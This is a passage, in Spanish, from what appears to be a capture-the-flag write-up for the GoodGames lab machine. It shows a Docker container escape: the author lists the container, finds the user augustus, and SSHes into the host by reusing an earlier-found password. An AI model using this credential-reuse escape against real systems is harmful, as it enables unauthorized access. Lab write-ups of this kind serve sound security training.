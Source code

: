 ### Docker Escape

Estamos dentro de un contenedor de Docker, vamos a intentar escapar de este contexto.

```bash
root@3a453ab39d3d:/# ls -la
total 88
drwxr-xr-x   1 root root 4096 Nov  5  2021 .
drwxr-xr-x   1 root root 4096 Nov  5  2021 ..
-rwxr-xr-x   1 root root    0 Nov  5  2021 .dockerenv
drwxr-xr-x   1 root root 4096 Nov  5  2021 backend
drwxr-xr-x   1 root root 4096 Nov  5  2021 bin
drwxr-xr-x   2 root root 4096 Oct 20  2018 boot
drwxr-xr-x   5 root root  340 Mar 26 14:41 dev
drwxr-xr-x   1 root root 4096 Nov  5  2021 etc
drwxr-xr-x   1 root root 4096 Nov  5  2021 home
drwxr-xr-x   1 root root 4096 Nov 16  2018 lib
drwxr-xr-x   2 root root 4096 Nov 12  2018 lib64
drwxr-xr-x   2 root root 4096 Nov 12  2018 media
drwxr-xr-x   2 root root 4096 Nov 12  2018 mnt
drwxr-xr-x   2 root root 4096 Nov 12  2018 opt
dr-xr-xr-x 176 root root    0 Mar 26 14:41 proc
drwx------   1 root root 4096 Nov  5  2021 root
drwxr-xr-x   3 root root 4096 Nov 12  2018 run
drwxr-xr-x   1 root root 4096 Nov  5  2021 sbin
drwxr-xr-x   2 root root 4096 Nov 12  2018 srv
dr-xr-xr-x  13 root root    0 Mar 26 14:41 sys
drwxrwxrwt   1 root root 4096 Nov  5  2021 tmp
drwxr-xr-x   1 root root 4096 Nov 12  2018 usr
drwxr-xr-x   1 root root 4096 Nov 12  2018 var
root@3a453ab39d3d:/# cat .dockerenv
```

En este caso es fácil escapar, tendremos que conectarnos por ssh a la máquina principal (dado que tenemos conexión con esta) reutilizando la password utilizada anteriormente, tendremos que usar el usuario augustus que podemos ver en el directorio /home

```bash
root@3a453ab39d3d:/home# ls -la
total 12
drwxr-xr-x 1 root root 4096 Nov  5  2021 .
drwxr-xr-x 1 root root 4096 Nov  5  2021 ..
drwxr-xr-x 2 1000 1000 4096 Dec  2  2021 augustus
root@3a453ab39d3d:/home# ssh augustus@172.19.0.1
augustus@172.19.0.1's password: 
Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Mar 26 17:34:36 2023 from 172.19.0.2
augustus@GoodGames:~$ id
uid=1000(augustus) gid=1000(augustus) groups=1000(augustus)
augustus@GoodGames:~$ 
```
